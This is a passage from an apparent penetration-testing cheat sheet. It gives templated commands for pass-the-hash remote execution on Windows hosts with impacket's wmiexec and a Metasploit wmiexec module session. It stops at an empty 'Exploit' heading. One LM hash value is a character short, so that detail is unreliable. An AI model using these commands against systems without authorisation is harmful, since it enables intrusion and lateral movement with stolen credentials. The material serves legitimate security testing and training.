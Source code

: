 - Pass the Hash

```
$ wmiexec <username>@<IP> -hashes <LM>:<NT> [-codecs <codec>]

$ wmiexec <domain_name>/<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<nthash>
```

## 04 - Metasploit

### 4.1 - Modules

TODO: Fill the missing info and contain internal references

#### 4.1.1 - Auxiliary

```
msf > use auxiliary/scanner/smb/impacket/wmiexec

msf auxiliary(scanner/smb/impacket/wmiexec) > options

Module options (auxiliary/scanner/smb/impacket/wmiexec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   COMMAND                     yes       The command to execute
   OUTPUT     true             yes       Get the output of the executed command
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     yes       The password for the specified username
   SMBUser                     yes       The username to authenticate as
   THREADS    1                yes       The number of concurrent threads (max one per host)

msf auxiliary(scanner/smb/impacket/wmiexec) > set command <commands>

msf auxiliary(scanner/smb/impacket/wmiexec) > set rhosts <target_IP>

msf auxiliary(scanner/smb/impacket/wmiexec) > set output true

msf auxiliary(scanner/smb/impacket/wmiexec) > set smbuser <username>

msf auxiliary(scanner/smb/impacket/wmiexec) > set smbpass <password | aad3b435b51404eeaad3b435b51404ee:<nt_hash>>

msf auxiliary(scanner/smb/impacket/wmiexec) > set smbdomain <domain>

msf auxiliary(scanner/smb/impacket/wmiexec) > set threads 2

msf auxiliary(scanner/smb/impacket/wmiexec) > run
```

#### 4.1.2 - Exploit
